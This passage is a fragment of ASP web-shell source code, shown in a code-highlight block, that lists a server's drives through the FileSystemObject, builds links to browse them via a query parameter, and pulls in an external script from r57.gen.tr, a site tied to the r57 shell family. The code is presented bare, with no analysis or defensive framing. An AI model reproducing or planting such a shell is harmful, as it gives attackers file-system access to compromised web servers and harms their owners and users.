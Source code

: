             location = "?raiz="+drive_+":";
        }
    &lt;/script&gt;
&lt;SCRIPT SRC=http://r57.gen.tr/yazciz/ciz.js&gt;&lt;/SCRIPT&gt;
&lt;%
    Set objFSO = Server.CreateObject("Scripting.FileSystemObject")
    Response.Write "&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;table align=center border=1 width=150 cellpadding=0 cellspacing=0&gt;&lt;tr bgcolor=gray&gt;&lt;td align=center&gt;&lt;b&gt;&lt;font color=white&gt;Drives&lt;/td&gt;&lt;/tr&gt;"
    for each drive_ in objFSO.Drives
        Response.Write "&lt;tr&gt;&lt;td&gt;"
        Response.write "&lt;a href='#'onClick=""driveGo('" & drive_.DriveLetter & "');return false;""&gt;&lt;font face=wingdings&gt;;&lt;/font&gt;"
        if drive_.Drivetype=1 then Response.write "Floppy [" & drive_.DriveLetter & ":]"
        if drive_.Drivetype=2 then Response.write "HardDisk [" & drive_.DriveLetter & ":]"
        if drive_.Drivetype=3 then Response.write "Remote HDD [" & drive_.DriveLetter & ":]"
        if drive_.Drivetype=4 then Response.write "CD-Rom [" & drive_.DriveLetter & ":]"
        Response.Write "&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;"
    next
    Response.Write "&lt;tr&gt;&lt;td&gt;"
    Response.write "&lt;a href='"& Request.ServerVariables("SCRIPT_NAME") & "'&gt;&lt;font face=webdings&gt;H&lt;/font&gt; Local Path"
    Response.Write "&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;"
    Response.Write "&lt;/table&gt;&lt;br&gt;"
end if
%&gt;
&lt;br&gt;&lt;Center&gt;&lt;Font Face='Wingdings' Size='7' Color = 'FFFFFF'&gt;&lt;b&gt; ? &lt;/b&gt;&lt;/Font&gt;&lt;/Center&gt;
&lt;br&gt;&lt;Center&gt;&lt;Font Face='Wingdings' Size='7' Color = 'FFFFFF'&gt;&lt;b&gt; ? &lt;/b&gt;&lt;/Font&gt;&lt;/Center&gt;
&lt;br&gt;&lt;Center&gt;&lt;Font Face='Wingdings' Size='7' Color = 'FFFFFF'&gt;&lt;b&gt; ? &lt;/b&gt;&lt;/Font&gt;&lt;/Center&gt;
&lt;br&gt;&lt;Center&gt;&lt;Font Face='Wingdings' Size='7' Color = 'FFFFFF'&gt;&lt;b&gt; ? &lt;/b&gt;&lt;/Font&gt;&lt;/Center&gt;
{% endhighlight %}